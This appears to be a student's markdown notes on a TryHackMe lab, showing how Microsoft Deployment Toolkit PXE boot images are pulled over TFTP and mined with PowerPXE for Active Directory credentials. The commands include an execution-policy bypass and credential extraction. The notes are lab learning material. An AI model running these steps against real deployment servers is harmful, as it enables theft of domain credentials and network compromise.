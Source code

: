 # Microsoft Deployment Toolkit

- Microsoft service that assists with automating the deployment of Microsoft OS's

- Organizations use services such as MDT to help deploy new images in the across the estate efficiently

- Base images can be maintained and updated in a central location

# SCCM

- MDT is integrated with SCCM

- MDT is used to create + manage + host PXE boot images

- PXE boot is integrated with DHCP

- If DHCP assigns an ip lease, the host is allowed to request the PXE boot image and start the network installation process

## PXE Boot Process
![Alt text](<../../Images/PXE Boot Process.png>)

Once the process above is performed, the client will use a TFTP connection to download the PXE boot image.

We can exploit the PXE boot image process for 2 different purposes:

- Inject a privilege escalation vector (Local Admin Account) to gain admin access to the operating system once the PXE boot has been completed

- Perform password scraping attacks to recover AD credentials used during the installation

# PXE Boot Image Retrieval

- Skip the part where we attempt to request an IP + PXE Boot preconfigure details from DHCP

- 1st piece of information regarding the PXE Boot preconfigure received via DHCP is the IP of the MDT server

- 2nd piece of information received would be the names of BCD files

- BCD files store the information relevant to PXE Boots for the different types of architecture

Connect to http://pxeboot.za.tryhackme.com (MDT Server) to view the BCD files:

![Alt text](<../../Images/BCD Files.png>)

- Use TFTP to request each of the BCD files and enumerate configuration

- Focus on the BCD file of the x64 architecture

- Copy and store the full name of this file: x64{7B...B3}.bcd

### SSH into THMJMP1 (Windows Machine)

- Create a folder with your username (Cameron) and copy the powerpxe folder

<pre>
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir &lt;username&gt;
C:\Users\THM\Documents> copy C:\powerpxe &lt;username&gt;\
C:\Users\THM\Documents\> cd &lt;username&gt;
</pre>

- Use TFTP to download BCD file to read the configuration of the MDT Server
- BCD files are located in /TMP/ directory on MDT Server

<pre>
C:\Users\THM\Documents\Am0> tftp -i <THMMDT IP> GET "\Tmp\x64{7B...B3}.bcd" conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s
</pre>

- THMMDT Server ip address

<pre>nslookup thmmdt.za.tryhackme.com </pre>

- BCD file has now been recovered
- Use `powerpxe.ps1` to read contents
- Powerpxe is a PowerShell script that performs this type of attack

- `Get-WimFile` recover the locations of PXE Boot images in BCD file

<pre>

C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.   

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : PXE Boot Image Location
PXE Boot Image Location
</pre>

- WIM files are bootable images in Windows Imaging Format
- Now we have location of PXE Boot Image. we can use TFTP to download it

<pre>
PS C:\Users\THM\Documents\am0> tftp -i THMMDT IP GET "PXE Boot Image Location" pxeboot.wim
</pre>

# Recover Credentials from PXE Boot Image
- Use powerpxe to recover the credentials from bootstrap file

<pre>PS C:\Users\THM\Documents\am0> Get-FindCredentials -WimFile pxeboot.wim </pre>